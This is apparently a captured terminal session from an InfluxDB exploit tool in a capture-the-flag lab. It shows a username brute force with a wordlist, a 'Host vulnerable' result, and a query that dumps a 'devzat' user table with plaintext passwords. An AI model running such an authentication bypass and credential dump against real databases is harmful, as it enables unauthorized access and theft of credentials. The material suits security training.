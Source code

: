 ```python
Insert port (default 8086):
Insert influxdb user (wordlist path to bruteforce username): /home/kali/tools/SecLists/Usernames/Names/names.txt

Start username bruteforce
[x] aaliyah
[x] aaren
[x] aarika
[x] aaron
[x] aartjan
[x] aarush

-----SNIP----

[v] admin

Host vulnerable !!!
Databases list:

1) devzat
2) _internal

Insert database name (exit to close): devzat
[devzat] Insert query (exit to change db): SELECT * FROM "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```